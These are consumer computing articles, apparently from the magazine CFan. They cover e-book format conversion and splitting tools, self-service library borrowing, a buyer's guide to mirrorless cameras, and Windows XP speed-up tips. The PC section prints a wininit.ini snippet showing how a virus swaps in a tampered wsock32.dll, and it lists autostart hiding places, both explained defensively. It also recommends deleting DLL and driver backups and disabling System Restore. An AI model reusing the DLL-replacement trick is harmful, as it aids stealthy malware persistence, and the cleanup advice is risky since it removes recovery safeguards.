这里推荐一个综合的解决方案，它可以让你将各种常见的电子书文件转换为掌上设备支持的TXT格式。首先，通过如下地址下载一个软件包：http://work.newhua.com/cfan/200724/textcov.rar
打开软件包之后，你会发现，里面包含有几个独立的小工具，这些小工具都可以独立运行，完成如下某项文件转换任务之一。

- HTML(HTML)转TXT
  所需软件: HTML2TXT.exe
- CHM转TXT
  所需软件: CHM Encoder
- PDF转TXT
  所需软件: PDF Text Converter
- JAR转TXT
  所需软件: UnJBookMaker
- UMD转TXT
  所需软件: XBookMaker
- EXE转TXT
  所需软件: miniKillEBook

由于以上涉及的小软件方便易用，所以我们不再介绍具体的转换方法，你只需根据自己的需要选择使用即可。

## 小提示：

以上转换是针对内含文字信息的电子书来说的，如果电子书本身就是图片格式的，那么只能通过OCR数字化软件进行文字化处理并校对错误，然后才能得到你需要的TXT电子书。
如果需要更多格式的转换，请参阅多特软件站的转换翻译软件频道 (http://www.duote.com/sort/2_43_date_0_1_.html) 。在此处下载自己需要的软件。

## 长短的困惑

琳琳：我的手机能阅读纯文本电子书，但对于长的文档支持就不好了，一方面是运行缓慢、翻页比较麻烦，另一个就是记不住上次阅读的位置，下次阅读时很要命。此外，我还有一台支持PDF的媒体播放机，看20MB以内大小的电子书文件还可以，但对稍长一些的电子书就不能阅读了。请问有什么办法？

老师：解决问题思路很简单，那就是切割文件。但关键的问题是要选对工具。此外文件的正确管理也很重要。
传统的电子书，不管是大部头还是小册子，拿在手上阅读，只不过是一个重量的区别，不存在看得了看不了的问题。而现代电子书则不然，装到各种设备上阅读，大部头与小部头就会有所不同，有的大部头的书装在某种设备上存在不能阅读、运行缓慢、阅读不便等问题。这是相对于传统书来说，所遇到的前所未有的问题。不过，这个困难可以通过将大书切割成小书并合理管理文件来解决。
由于硬件档次和软件设计水平不同，阅读器对长短文档的支持有所不同。有的设备（如普通手机）档次比较低，一次读取的文档长度有限制。比如打开一个容量大的TXT小说需要的时间过长，翻阅功能太弱，阅读定位不方便；阅读PDF电子书没有添加书签功能，没有跳转到某页的功能，造成下次阅读定位的不方便。在这种情况下，如果没有条件更换设备，也可以通过切割电子书的办法来解决。

## 等分切割，编号记忆

可以用专用切割工具将TXT、PDF等电子书自动切割成等分的小文件，然后给文件顺序编号。这样，化整为零，在阅读的时候就变大文件阅读为小文件阅读。变调用大文件为调用小文件，对机器内存的需求无形中就变小了；因而可大大提高显示速度。还有一个好处，那就是一个接一个地阅读小文件便于记忆阅读的位置。没有阅读完的图书，下次阅读，只要记住上次阅读到的文件编号即可，进入之后翻动两下就可以定位了。这种切割的好处是，由于不需要顾及章节，切割所需的人力时间花费极短。缺点是，如果要从某个章节进入阅读，那么定位起来就困难了。
软件推介：我爱看书电子书分割器 V3.3
软件用途：把一个电子书分割为任意份，直到你的手机能看为止。
下载地址：http://www.duote.com/soft/5591.html
软件特点：有智能断句功能，不到一句结束不分割。

## 按章分割，便于定位

如果你习惯于按章节跳跃式阅读，那么上面介绍的等分切割方法就没有优势了。这时，我们还可以借助于工具将电子书文件按章节来进行切割，切割的文件按章节名称并带编号来命名。这样，重新定位起来就容易多了。阅读时需要从哪个章节阅读，只要按章节的名称对应寻找文件名，点击进入阅读就可以了。
切割PDF电子书的软件推介使用PDF Split-Merge，该软件可按需要将电子书以文件等分大小或由用户自定义章节（页码范围）来切割PDF电子书。
PDF Split-Merge V3.1 汉化版
下载地址：http://www.duote.com/soft/982.html

有关其他更多种类的电子书文件分割软件，请参阅多特软件站http://www.duote.com/sort/2_56_date_0_1_.html的文件分割下载频道。读者朋友们可从此处选择下载自己需要的文件分割器。
除了上面涉及到的电子书来源、格式、长短等问题外，还有一些常遇到的问题，比如切掉太宽的电子书边框以有效利用显示空间的问题，电子书阅读智能断章和版面重排的问题，阅读书签记忆、版面放大缩小等问题。这些问题一是可以通过更换软件来得到解决，二是可以通过升级电子设备的固件为更高级别的版本来实现。限于版面这里不再细述。

## 读在变迁中

## 从“深闺”中走出——现代阅读 渠道选择的多样性

就在电子图书发展的同时，传统图书的借阅方式也在发生着变化。电子科技催生了各种传统阅读与现代科技结合的新事物。以往的借书一般是以读者亲自到图书馆借阅的形式进行，而现在这种借书方式，已经延伸到机场码头，甚至已经发展到大街小巷。同时，传统图书馆的借阅方式也正在发生着改变。

## 云端借阅

老公：这次出差在飞机上看了一本好书，对协调夫妻关系启发很大。

老婆：书在哪呢？我也要看一看。

老公：还了。北京上飞机时用银行卡借的，杭州下飞机的时候看完就还了。早知道你也感兴趣，我就拿回家了，等读完了，10天后正好又要出差，到机场顺便还了就是了。或者，如果你喜欢我们还可以选择留下不还。
2011年4月22日，在第16个世界读书日到来前夕，“云端图书馆”阅读计划在北京首都国际机场启动。开创了“A地借阅—空中阅读—B地归还”的旅行阅读新模式。
这一阅读计划由中信银行信用卡中心与中信出版集团旗下中信机场连锁书店联手推出。
在“云端图书馆”，中信信用卡就是借书证。通过信用卡预授权，读者可以方便地实现“A地借阅—空中阅读—B地归还”的旅行阅读模式。如果短暂的候机和飞行旅途让旅客阅读意犹未尽，还可以把喜爱的图书带回家继续阅读。只要在规定的15天借阅期限内完好归还，不会发生任何费用。如果读者对书爱不释手，只需预授权生效即可方便地实现借阅转收藏。
但目前每张信用卡只可借阅1本图书，旅客借阅后应保管好“还书凭证”—预授权签购单，若15天内未完成归还，则将被默认为选择购买收藏。中心银行的这个创意真不错，信用卡即为借书证，这个办法无意中很好地解决了借书不还的难题！

## 街头借阅

姥姥：闺女！告诉你一个好消息，你爱看书，咱家的小区门口刚刚装了一台自动借书机。你需要什么书，插上卡，按几下按钮，机器就能吐出书来了。

妈妈：真的吗？那该有多大的一个借书机啊？它里面装了多少本书啊？正好能有我需要的书吗？我得去看个究竟。
大多数图书馆都是按照正常时间上下班，在服务时间上不能与读者对接，尤其是上班族借书很不方便，等到下班去借书，图书馆已关门谢客了。针对这些问题，深圳市率先在一些街区设置了“自助图书馆”。“自助图书馆”其实是一个自助服务机，不论是本地居民还是外来人员，只需持第二代身份证在自助服务机上扫描一下，再将100元押金塞入机器，便可获得一张借书卡，整个过程仅需10秒钟。借书也极方便，输入指令，一二分钟就可完成借书还书的全过程。
无独有偶，三年之后的2011年8月，10座外形酷似ATM机的“24小时自助图书馆”也在北京朝阳区街头相继亮相了。这种自助图书馆和实体图书馆的功能完全一样，无需交纳任何费用，只要持有借书卡就能自助借书。即便没有借书卡，市民也可以拿自己的身份证直接在这部机器上自助办理借书卡，只要将身份证在机器上扫描并输入100元押金，就能完成借书卡的办理，然后自助完成借书。还书更方便，在任何一台自助图书馆或可使用一卡通的实体图书馆都能还。

策划/《电脑爱好者》编辑部
监制/书童
撰稿/张楚华 刘英

# 画质便携两相宜
## 小巧玲珑微单潮

前言：广大摄影爱好者常常有这样的矛盾，既想拥有单反相机的画质，又难以割舍消费级卡片相机的娇小体积。于是，集两者之长的微单（微型单电）相机应运而生。

要说2011年什么相机最火，那无疑是红透半边天的微单相机了。其实数码微单相机也是普通数码相机的一种，只不过它具备了可更换镜头的特点。相比起一般数码相机来说，它有画质更佳、更具专业气质的特点，而相对于单反相机来说，数码微单相机又有体型小巧的优势，所以成为目前炙手可热的相机类型也不奇怪了。当然这类相机也不是没有缺点，例如景深会相对狭窄，对焦会比单反慢这些都是数码微单相机的软肋。不过能在数码相机和单反相机中取得一个相对的平衡，数码微单相机自然就有了自己的生存空间了。记得曾经有读者来信询问微单相机会不会成为数码单反或卡片机的终结者，经历了2011年夏天硝烟的市场用事实告诉我们，微单没有把谁终结而是数码相机领域真正的三分天下者。

那么我们在购买微单相机之前要做好什么功课呢？首先得明确自己需要个什么样的微单。



## “微单”和“单电”到底有何不同？

微单，仅从字面的理解，我们可以叫做微型的单反，但它又不是单反，因为它没有单反的电子取景器，也没有反光板。只是与单反一样可以更换镜头。微单就是介于单反和消费DC之间的一个产品。除了微单这一说法，现在大家还有一种叫法——“单电”，这又是怎么回事呢？这是由于索尼发布NEX3和NEX5的时候，把它们叫做微单，为了和竞争对手区别开来。之后索尼发布了A33和A55，叫单电了，但这两个相机都有EVF（电子取景器）。与微单在体积上有较大的区别。因此按照索尼的叫法，没有反光板和EVF的相机，就可以叫微单，有EVF没有反光板的叫单电。

与单反相比，单电相机并没有明显的劣势，但它目前的处境显然有些尴尬：作为单反备机，单电相机的体积显然太大了，取代单反，现在显然还为时尚早。所以，单电相机现在依然是一个没有明确定位的相机类型。不过，从现有的单电相机的定价和客户群来看，单电相机还处于替代入门单反的阶段，但事实上认可它的用户并不多。

## 传感器之争

虽然各家相机都推出了相关微单产品，但是彼此之间却有着千差万别，比如松下和奥巴就都隶属于M4/3阵营，采用的传感器也是4/3规格，而索尼和三星的微单产品则采用了APS-C画幅。至于理光的GXR则可以更换成像组件。尼康也采用了全新的13.2mm×8.8mm面积大小CX画幅格式传感器。并且各家镜头卡口都不一样。这些都表明了微单市场正进入群雄逐鹿的一个场面。

## 给摄影初学者的忠告：P档不是“万能档”

摄影实践中有很多适合P档拍摄的对象。通常，P档保证摄影者手持相机能拍摄到清晰图像的前提下首先会选择比较高的快门速度，只有当现场光照亮度不够时，快门速度才逐渐下降（最低到1/30秒），当将光圈开到最大时仍影响曝光、影响图像清晰度时便会启动闪光灯，保证摄影者获得比较高的图像质量。但P档不能适合所有的被摄对象，一般来说，它适合拍摄亮度比较均匀的中景，不适合拍摄远景以及一些特殊的题材。

- 1. **室内拍摄**
P档适合室内拍摄被摄对象集中而距镜头不太远的场景，因为被摄对象在6米以外的摄距时，依靠P档自动启动的机内闪光灯往往难以满足远距离照明需要，容易曝光不足。

- 2. **拍摄一般风光照**
P档不适合拍摄天空占较大比例的画面，也不适合拍摄光线复杂并呈现为高调、低调内容。
因为P档曝光严格按照平均测光曝光方式，将被摄对象以18%中性灰影调反映出来，这些场合常常需要摄影者调整曝光补偿改善影调。

- 3. **拍摄雪景等特殊题材**
摄影初学者会问：在正常阳光下用相机P档拍黑白灰三个色板，为什么展现出来的都是灰色？
其实，这个跟相机的测光系统有很大关系。就是所谓的18%灰度。绝大多数相机（除了专业机之外）的测光系统都固化了一种测光规则，即假设照片整体的亮度为“18%”的亮灰色。所以，就会出现上文所说的情况。
这种测光还会造成别的常见的曝光错误，例如拍摄煤炭，如果不加干预，多半是会拍出像石灰石一样灰调的；再例如拍摄雪景，雪地多半会显得很脏，完全没有白色的那种洁净的感觉……这都是一类问题所导致的。

由于雪景是很特殊的对象，对曝光要求相当高，曝光不足使得白雪发灰，曝光过度白雪又缺乏层次。因此拍摄雪景时最好对灰板或手背测光，并将使用M档根据曝光读数设定光圈、快门。
不过，P档在实践中确实具有很强的实用性，适合抓拍，要是现场亮度不够，相机还会自动启动闪光灯，也会自动设定最合适的光圈和快门速度等。这对于需要抢新闻，需要万无一失地拍摄到某些场景的摄影者而言也是个重要的保险措施。


## 微单为谁而设计

这个标题有点古怪，在近距离接触玩相机的用户之前很难想象他们到底是为了什么选择微单相机，小编前段时间买了个松下GF3，加了个饼干头，闲暇时间四处游走，头一次从专业评测者过渡到轻度玩家，与一些摄影爱好者私交甚广，得知单反相机那硕大的个头诚不是每个人都愿意接受的，复杂的按钮设置也有点拒人于千里之外，这时才感觉到避重就轻其实也很重要。

## “小”就一个字

对于年轻时尚用户和女性摄影者来说，单反相机千篇一律的造型有点不招人喜欢，硕大的机身拿在女孩子手里对其形象也有颠覆。正因如此，个头较小的微单相机造型变化很多，也更加适合年轻时尚用户的品味，则不会有这些烦恼。例如小编刚刚到手的松下GF3，个头与卡片机已经不相上下（用饼干头时），这个相机是博得女孩子欢心的利器。

小编我也曾享受过旗舰相机+大炮狂拍的乐趣，但这显然不适合所有的摄影题材，尤其是当摄影者要与被摄者以平等融合的心来互动时，拍摄者不应该影响被摄人物。这个时候低调、不起眼的小相机就是最佳武器。例如，迷你的宾得Q（下图），小的可以挂在钥匙上。我们在任何场合只要发觉有要记录的东西，即可从容的掏出来按下快门，拍摄已毕装回口袋谁也不会发现（偷拍的不要……）。

不过，过于小巧的相机虽然可换镜头但是在传感器尺寸上也会相应变小（宾得Q传感器尺寸为1/2.3英寸），这样一来拍出来的照片画质也会缩水（常规微单相机传感器尺寸为4/3英寸），但比起卡片机拍摄效果还是完胜，其余的特殊效果模式、高清视频录制、焦外虚化效果、SR防抖功能等倒是不会缺失，对画质要求苛刻的时尚玩家还需稍加权衡一下。

CFan推荐产品：对于女性摄影爱好者小编推荐松下GF3，宾得Q。
推荐理由：小巧便携，美观实用。

## 拍照的感觉我的手说了算

大多数使用过单反相机的用户都会对手感的赞叹，硕大机身带来的好处是抓握感十足，一手扶相机另一手托镜头的感觉实在很过瘾。可是现在到了微单相机上，一只手就搞定了，有点显示不出我的专业。微单相机中索尼NEX系列一向很硬派，弧线形手柄抓很大程度保留了单反相机的抓握感，但是索尼NEX系列的手柄外表是金属质地，我们秋冬季节手持会有点冰冷。

奥林巴斯系列的手柄虽然抓握感稍逊于索尼，但手柄材质采用了皮革质地增强了握持的稳定性又不会“冰镇”人的手，外观看起来还有点复古，如果不喜欢还可以拆卸掉蒙皮。
CFan推荐产品：

### 仰拍俯拍我一个姿势搞定

用过佳能单反相机60D的朋友对相机后的可旋转显示屏记忆犹新，在微单相机领域所宣传的是“卡片之薄，单反之用”，这种人性化设计还是有保留的。我们在参加婚礼的现场时，常常遇到新人被一圈嘉宾团团围住，若是高举相机使用过肩拍摄则拍摄者看不到取景器，构图就跟着感觉走了。若是使用比如奥林巴斯E-PL3、索尼NEX系列等相机，无论拍摄者把相机机位摆放于何种位置，只要把显示屏转动即可垂直于目光所向。相比卡片机那种相机后背就是显示屏，拍摄起来要有把握得多。

### 极限状况我也要拍

有人说微单就是机能退化的单反相机，其实不然。有很多主打性能的微单相机可以应付很多极限环境的拍摄。例如索尼NEX-C3、NEX-5N，感光度可以达到ISO12800这个数值与佳能5D MARK II已经打平，即使在昏暗无光的室内也可手持相机把被摄物体拍清楚，这个功能用于纪实类拍摄很了不起，虽然噪点很多，但把最真实的画面记录下来却是无比重要的。另外，此款产品还可以在热靴上外加闪光灯，很是拉风。

CFan推荐产品：对于性能要求较高的微单用户，小编推荐索尼NEX-5、奥林巴斯E-PL3。

## 拍摄时指哪打哪有意思

现在微单的显示屏有很多采用了触控屏幕，我们在翻阅照片或系统菜单时都很方便。但有些相机可以用触控屏帮助对焦，这在拍摄时很是讨巧。例如小编的松下GF3，在按下位于机身顶部的iA智能自动按钮之后，屏幕会启动一个“模糊控制”功能，我们就能轻松的通过触摸操作调出只有单反相机才能实现的精彩虚化效果。点触“模糊控制”图标，显示出滚动条，接下来点触并左右移动滚动条，即可调节背景的虚化效果。然后我们只需要按下快门按钮，我们就可以得到一张主题清晰、周边失焦的大光圈浅景深效果照片了。

## 微单贵在可换镜头

卡片机之所以拍摄效果不尽如人意，很大一部分原因在于综合功能的内置化(微距、长焦、人像、运动等等)，一个固化的小镜头能有什么突出的表现呢？微单相机要拍摄哪一类的照片换上专有镜头就是专业相机，卡片机完败。那么我们在标配镜头之外还应选配何种镜头呢？
小编个人认为最应购置一款饼干头(轻薄定焦镜头)，微单相机好不容易将机身做得小巧了，安装上标配镜头还是不能放在口袋里，遗憾啊。若是配备一款定焦的小镜头不但可以方便携带，更有定焦镜头的大光圈、背景虚化等优秀拍摄效果，何乐而不为。

## 镜头转接环也是微单乐趣之一

我们发现越来越多的摄影爱好者使用微单相机时，已经不光局限于使用手上的套头或专用镜头。对于一个可以更换镜头的微单相机来说，利用它数码成像即拍即得的优势，我们可以让那些胶片时代老镜头重现光彩，重新回味一下老镜头的色彩味道。要想转接其它镜头必须要通过微单转接环来实现，目前市场可以买到的转接环主要分原厂和第三方副厂转接环，在价格上原厂明显要略贵于副厂转接环，但是副厂转接环的优势是可转接的镜头种类非常繁多，而根据所转接的不同镜头，其转接环的价格也是有高有低，例如徕卡镜头的转接环就高达1000元，而尼康镜头的转接环区区只有百十来元，商家还是很会做生意的。

目前市场上可以买到索尼NEX卡口和松下、奥林巴斯M4/3卡口两种微单相机转接环，我们粗略统计了一下它们分别可以转接佳能EOS口、尼康AI口、宾得PK口、蔡司Y/C口、宾得M42口、徕卡L39口等镜头，这对于发烧友来说可玩性还是非常大的，就是不知道口袋里的银子够不够我们这般的破费啊。对于那些新手朋友们来说我们还是量力而行，用好手上已有的镜头其它的都是浮云。

上面介绍的这些微单相机转接环，可以让我们在套机头以外，还可以转接其它品牌或相机系统镜头，例如传统胶片135单反镜头、旁轴镜头、电影镜头和120中画幅镜头等。从这些镜头的二手价格上看，最便宜的为日系镜头，而最贵的则是大家熟知的日耳曼民族纯正的德系镜头。下面我们就为大家简单介绍几款能转接到微单相机上使用的老胶片手动镜头。

宾得50mm F1.7为传统135胶片老手动镜头，属于人们常说的标头，成像上自然不会差很多。该镜头目前的价格还是十分便宜的，再配上宾得特有的SMC镀膜和F1.7大光圈，成像色彩一流，暗光下又具有大光圈可以使用，购买这样一支镜头转接到微单上用还是很超值的(网购价格600元左右)。

除了日系镜头以外，德系镜头那优秀的成像质量和制作工艺诱惑着每一位摄影爱好者的心。康泰时卡尔蔡司50mm F1.4 Y/C口老胶片手动头，就是一支非常经典的大光圈标头。采用Planar的镜片结构配合蔡司T镀膜，让我们这些使用微单的影友们也能享受一回油润般的德味色彩表现。

如果觉得传统135镜头还不够给力，那还可以尝试转接一支120中画幅镜头到微单相机上。哈苏100mm F3.5就是一支120画幅上使用的人像专用镜头(如下图)，别看它光圈不大只有F3.5，但是120镜头的像场确是传统135镜头的几倍之大，在微单相机上拍摄使用，画质效果完胜入门级单反相机。

就目前来说，可以转接到微单相机上使用的老胶片镜头和其他镜头种类非常的多，我们在挑选时也要注意尽量不要购买到镀膜有脱落或划痕的老镜头，因为这会影响成像质量。其次老镜头焦距都是按照原有的相机系统定义的，转接到不同的微单相机上，实际焦距必须会有变化，对于M4/3系统要乘以2.0的镜头系数，而APS-C画幅的微单要乘以1.5或1.6的镜头系数，这些问题大家在够买时要注意。

通过我们上面的推荐介绍，想必大家已经知道了在购买微单相机时还需要购买配件，这些东西对于我们今后在使用相机时是很有用处的。

再有，屏幕贴膜也会有效起到保护相机屏幕的作用，尽量选择较为厚实的贴膜即可，诸如清洁类等物品一般商家会以搭送单反形式给予，若是他忘了给咱们，不要忘了索取一下试试(毕竟加在一起的成本也就是10元左右)。

## 微单备用电池很重要

微单体积小于单反相机这是天生的优势，但是小机身的设计导致电池体积大大缩小，容量自然也不会很大，这就造成拍摄时的续航能力不敌单反相机。为此，大家在购买微单时十分有必要再购买一块备用电池来增加拍摄时间。

而目前新品微单相机大多数都采用触摸屏的操作方式，一块3英寸大屏长时间开启、频繁触摸对焦、拍摄，这也会造成耗电显著剧增。所以，各位朋友要想更好的体验微单相机的拍摄乐趣，置办一块备用电池还是很有必要的，在购买上我们可以选择品质更好的原厂电池或价格低廉的副厂电池，具体还要看个人的实际需求来定。



## 大容量存储卡势在必行

微单相机与单反一样，所拍摄的照片都需要放在存储卡里进行保存。但不同的是，微单相机大多数使用的是SD卡，而索尼微单使用的是自家的记忆棒和SD卡的双卡设计。因此，我们在购买存储卡的时候可以把主要目光投向普及率比较高的SD卡。在购买SD卡时，我们首先要考虑的是SD卡的存储容量，这与单反又不太一样，因为微单相机所拍摄的照片文件量不是很大，一般为5MB~6MB，所以购买普通速度的SD卡就基本够用了。不过高速卡相比低速卡在连拍感觉上更有优势，在拍摄RAW格式照片时存储速度更快。

而在选择SD卡的容量上，我们可以适当的选择16GB或更大的32GB产品，这样在保证存储速度的同时，大容量SD卡还可以帮助我们存储更多的照片。当然对于那些发烧友来说，既追求超快的存储速度又要超大的容量，专业SD卡产品才是他们所需要的，不过价格可能是普通大容量卡的一倍以上。

下表是市售主流微单配置表，摄影爱好者们可以参看以下表格。



## 玩得HI也要注意安全 微单保护套很重要

微单相比于单反其机身体积更为小巧，同时也更便于携带，我们可以把它随意放在任何书包内或是衣服口袋里。但是出于对相机的安全考虑，我们还是有必要为它配个专用相机包来进行携带外出拍摄。微单专用相机包不仅可以保护机身，还有专门保护镜头设计款式，这样一来，我们在拍摄时也不用像原先那样还需要把相机从相机包内拿出来，直接打开保护皮套就可以马上进行拍摄，非常之便捷。现在市面上推出了一种专为微单相机量身体裁的相机保护皮套，不仅外观精致时尚，而且还能起到保护机身免受磕碰，可谓是广大微单用户梦寐以求的东西。

策划/《电脑爱好者》编辑部
监制/周璟
撰稿/周璟 傻博士

## 数码微单相机主要参数对比

| 相机型号 | 奥林巴斯E-P3 | 奥林巴斯E-P2 | 松下G3 | 松下GF3 | 索尼NEX-C3 | 索尼NEX-5C |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 卡口类型 | M4/3卡口 | M4/3卡口 | M4/3卡口 | M4/3卡口 | E卡口 | E卡口 |
| 图像传感器 | 高速Live MOS | 高速Live MOS | 高速Live MOS | 高速Live MOS | Exmor APS HD CMOS | Exmor APS HD CMOS |
| 有效像素 | 1230万像素 | 1230万像素 | 1600万像素 | 1210万像素 | 1620万像素 | 1420万像素 |
| 防抖系统 | 机身内置 | 机身内置 | 镜头防抖 | 镜头防抖 | 镜头防抖 | 镜头防抖 |
| 动态影像拍摄 | 1080i | 720P | 1080i | 1080i | 720P | 1080i |
| 取景器 | 液晶取景屏 | 液晶取景屏 | EVF液晶取景屏 | 液晶取景屏 | 液晶取景屏 | 液晶取景屏 |
| ISO感光度 | 200~12800 | 200~6400 | 160~6400 | 160~6400 | 200~12800 | 200~12800 |
| 快门速度 | 1/4000~60S | 1/4000~60S | 1/4000~60S | 1/4000~60S | 1/4000~30S | 1/4000~30S |
| 连拍速度 | 约3张/秒 | 约3张/秒 | 约4张/秒 | 约3.2张/秒 | 约5.5张/秒 | 约7张/秒 |
| 液晶显示屏 | 64.1万像素 | 46万像素 | 46万像素 | 46万像素 | 92万像素 (可折叠) | 92万像素 (可折叠) |
| 存储介质 | SD (SDHC) | SD (SDHC) | SD (SDHC) | SD (SDHC) | SD (SDHC) / MS | SD (SDHC) / MS |
| 电池续航 | 约330张 | 约270张 | 约270张 | 约300张 | 约330张 | 约330张 |
| 机身尺寸 (mm) | 122x69x34 | 115x73x42 | 115x84x47 | 113x68x33 | 110x60x33 | 111x59x38 |
| 机身重量 | 约321克 | 约317克 | 约366克 | 约265克 | 约225克 | 约229克 |

# 别扔 三招唤醒老电脑

小金去看望朋友老张，到了他家小区的门口，发现老张正在跟一个收废品的讨价还价。原来老张家买了新笔记本，感觉原来老的台式机没什么用了，放在家里还占地儿，不如卖掉，没想到收废品的才给他50块钱。

小金拉着老张抱起旧电脑就往回走，边走边数落他：把这台电脑当成旧电器，在“家电下乡”活动中，还能顶好几百块钱呢，再说了，老电脑好好打理一下，送给一些经济条件不是很好的亲戚，也是好的啊。

老张道：只是这些旧电脑，运行太慢，不好用啊。

小金道：别担心，今天我就让你的老电脑开出新花样……

## 优化篇

### ——老电脑的“毛病”与对症治疗

老张发现家里的老电脑越用越慢，他抱着“慢就慢点儿吧”的心理继续使用，却不知这样一来弊端越积越多，最后导致电脑隔三差五的就罢工。其实掌握一些电脑变慢的原因和解决办法，老电脑也能焕发第二春。稍微老旧一点的电脑大多是Windows XP系统，所以以下主要针对此系统而言。

### 原因1: 开机时加载程序太多

电脑启动时，除了加载相应的驱动程序外，还会启动一些应用软件。这些软件不但拖慢开机速度，还会消耗不少CPU及内存资源。所以清理随机启动程序是系统提速的好方法。一般情况下可如下操作：

- 1. 清理“启动”文件夹。单击“开始→程序”，右击“启动”菜单选择“打开”，其中的程序和快捷方式都会在系统启动时自动运行，不需要启动的程序，将其图标删除即可。
- 2. 用Msconfig清理启动项。在运行对话框中执行msconfig命令打开“系统配置实用程序”，切换到“服务”和“启动”，取消勾选不需要的服务或程序即可。

小提示：
在“启动”选项卡中，必须保留的随机启动的程序一般只有两个：一是输入法管理程序(即ctfmon.exe)，二是杀毒软件的启动程序，可以通过命令的路劲来识别。
在“服务”选项卡下勾选隐藏microsoft服务项，然后再分辨哪些是杀毒软件的服务，如果不是杀毒软件的服务一般可以停止。

### 实战: 彻底清理随机启动程序

上面的方法可以处理正规的软件随机启动问题，但一些狡猾或不怀好意的软件就会东躲西藏，让还不十分熟悉电脑的人难以找到。因此，要想彻底清理不需要的程序，需要了解系统在哪些地方还能设置程序随机启动。下面列出这些随机启动程序可能的藏身位置：

#### 1.清理注册表启动项目

注册表中有不少子键，如Run、RunOnce、RunServicesOnce、RunServices、RunOnceEx、load、Winlogon等，都是启动程序的藏身之处。为节约篇幅，这些子键的详细位置已贴在http://bbs.cfan.com.cn/thread-1441122-1-1.html[本文资源贴]，大家可找来参考。

#### 2.清理系统配置文件

Windows的配置文件(主要是Win.ini、System.ini和wininit.ini)，也可以加载一些自动运行的程序。
Win.ini文件
此文件位于C:\Windows\Win.ini，可用记事本打开，在它的[windows]段下的“Run=”和“LOAD=”语句后面，就是随机启动的程序。“load=”后面的程序在自启动后最小化运行；而“run=”后程序则会正常运行。根据实际需要清除即可。
System.ini文件
此文件位于C:\Windows\System.ini，在它的[boot]段下“shell=”语句，默认为“shell=Explorer.exe”。如果是病毒，就可能是“shell=c:/xxxx.exe”，可将其恢复为默认值，以阻止病毒自动运行。
除了Explorer.exe外，也可以执行其他的系统程序，如“Shell "C:\Program Files\Internet Explorer\IEXPLORE.EXE http://www.XXX.com"”，它的作用是启动时自动调用浏览器打开“http://www.XXX.com”网站。

```
[rename]
nul=c:\windows\dll.lzh
c:\windows\system\wsock33.dll=c:\windows\system\wsock32.dll
c:\windows\system\wsock32.dll=c:\windows\dll.timp
```

##### 技术扩展: 病毒是如何感染DLL的

Wininit.ini的运行机制极有可能被病毒所用，比如病毒可以利用它感染DLL文件，病毒改写该文件内容如下：

第一行是删除dll.lzh，第二行是把原wsock32.dll改名为wsock33.dll，第三行用dll.timp替换wsock32.dll，下一次启动时指令将生效，这样wsock32.dll就被感染了，当然这只是病毒感染DLL的方法之一，知道原理后我们就可以更好地预防了。

在运行对话框中执行sysedit命令打开“系统配置编辑程序”，在这里可以很方便地对上述文件进行查看与修改。

#### 3.清理开机/关机/登录/注销脚本

在运行对话框中输入执行gpedit.msc，打开组策略编辑器，依次展开“本地计算机策略→用户配置→管理模板→系统→登录”，然后在右侧窗格中双击“在用户登录时运行这些程序”，将该项目设置为“已禁用”，确定后关闭组策略编辑器即可。

#### 4.清理任务计划

默认情况下，“任务计划”程序随Windows一起启动并在后台运行。如果把某个程序添加到计划任务文件夹，并将计划任务设置为“系统启动时”或“登录时”，这样也可以实现程序自启动。可以双击“控制面板”中的“计划任务”查看有哪些项目，将不必要的计划删除即可。

### 原因2: 桌面内容太多会惹祸

桌面内容太多也会导致系统变慢。由于Windows每次启动都要加载一次桌面配置，过程是：首先系统会建立一个桌面背景，如果有自定义的图片，则显示自定义的图片作为背景；然后加载桌面的相关设置（比如是否采用活动桌面、桌面图标的排列方式以及显示的效果等）；最后系统则根据这些配置去逐个加载桌面的各种图标和快捷方式。当然，如果电脑配置好，这个过程是很快的。但如果是一台老电脑，随着桌面的内容增多，这个过程会变得越来越慢。因此，如果你的电脑配置比较陈旧，则有必要清理不必要的桌面内容。

### 实战: 优化桌面配置以提速

- 1. 根据实际情况删除桌面上不常用的图标，可手工也可借助系统的“运行桌面清理向导”进行。
- 2. 取消勾选“在桌面上锁定Web项目”项。
- 3. 桌面属性对话框中，将“外观”设置为“Windows经典样式”。
- 4. 桌面选择单色为背景，尽量不用图片。
- 5. 将“视觉效果”设置为“调整为最佳性能”。

### 原因3: 系统垃圾太多

系统及应用在运行的过程中会生成很多临时的文件，如果不清理这些文件，则会挤占系统盘的空间，让系统越来越臃肿，并导致运行效率逐步下降。对于老旧的电脑而言，磁盘可能也就40GB、80GB，分配给系统的可能只有10GB甚至更少，所以系统优化势在必行。

### 实战: 360安全卫士保“清洁”

手工清理系统垃圾是很麻烦的，不妨借助360安全卫士提供的工具来帮忙(http://www.360.cn)。在360安全卫士主界面，点击“电脑清理→开始扫描”就可以对Windows系统垃圾文件、浏览器产生的垃圾文件、注册表中的无用键值以及第三方软件的垃圾文件等进行扫描并清理了。
默认设置下，360安全卫士的垃圾清理可能不能清理所有垃圾，在这里建议打开“设置”选项，点击“全选”将可以扫描的文件格式都添加进去，确定后再全盘扫描并清理就可以啦。

### 技术扩展

Windows自身带有“磁盘清理”程序，不过它有着很大的局限性，可选项较少。其实这一程序还有命令行运行方式，加上一定的参数，比如执行命令“cleanmgr /sageset:99”，可打开“磁盘清理设置”窗口，在这里你会发现可以清理的选项比原来的多了许多。另外，我们也可以手工编制一些批处理命令，完全按照自己的意愿来清理。在上文所给出的资源帖中，大家可以找到一些实例。

### 原因4: 系统盘剩余空间太少

如果系统盘上的剩余空间太少，程序运行时周转不开，也会导致系统运行变慢。根据“二八原则”，建议系统盘至少保持20%的剩余空间。如果低于这个比例，那就要对系统盘进行“瘦身”了。

### 实战: 系统可以瘦身的7大位置

- 1. 删除系统备份文件
在运行中执行“sfc.exe /purgecache”命令，可以清理软件安装过程中产生的缓存文件。
- 2. 清理不必要的输入法
IMJP8_1日文输入法，IMKR6_1韩文输入法等一般用不上，不如删除，它们位于C:\windows\ime\文件夹中。如果你不知道哪种输入法可以删除，建议你到http://123yun.newhua.com/down/IME_CleanUp.rar下载输入法清理工具来帮你。
- 3. 删掉dll动态链接库备份
Windows设置了dll备份保护机制，系统必需的dll文件都会在“c:\windows\system32\dllcache”中有备份。如果你要效率优先，可将此文件夹中的文件删除。
- 4. 删除驱动备份文件
Windows对硬件驱动程序也会进行备份，如遵效率优先，同样可删除它，即C:\windows\driver cache\i386目录下的driver.cab。
- 5. 关闭系统还原
在“系统属性”对话框中选择“系统还原”选项，勾选“关闭系统还原”复选框即可。
- 6. 关闭休眠功能
